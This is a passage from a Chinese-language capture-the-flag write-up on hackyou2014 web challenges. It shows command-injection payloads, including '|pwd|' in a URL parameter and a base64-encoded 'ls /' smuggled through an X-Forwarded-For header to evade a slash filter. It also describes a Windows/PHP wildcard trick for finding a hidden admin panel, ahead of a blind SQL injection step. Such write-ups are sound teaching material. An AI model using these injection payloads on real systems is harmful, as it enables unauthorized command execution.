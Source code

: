 ```
http://hackyou2014tasks.ctf.su:20080/cgi-bin/index.pl?ip=|pwd| 
```

发现命令注入成功了。由于这里不能使用/和\字符，我们可以使用 base64 编码下，如图 4

这之前需要在提交成绩的时候 X-Forwarded-For 改为

```
|`echo bHMgLw== | base64 -d`| 
```

![2014012112130828316_png.jpg](img/img4_u85_jpg.jpg)

## 第三关

* * *

[`hackyou2014tasks.ctf.su:30080/`](http://hackyou2014tasks.ctf.su:30080/)

这关可分为两部分

```
1、找到隐藏的管理后台
2、盲注获取权限 
```

找到隐藏的管理后台需要利用 windows 平台上的一个技巧，具体的研究测试报告可以看这里：

[Windows+PHP bug realted with findfirstfile](http://onsec.ru/onsec.whitepaper-02.eng.pdf)

php 的某些函数获取文件时，可以使用`<`代替其他字符进行猜解。

```
p<< 
```
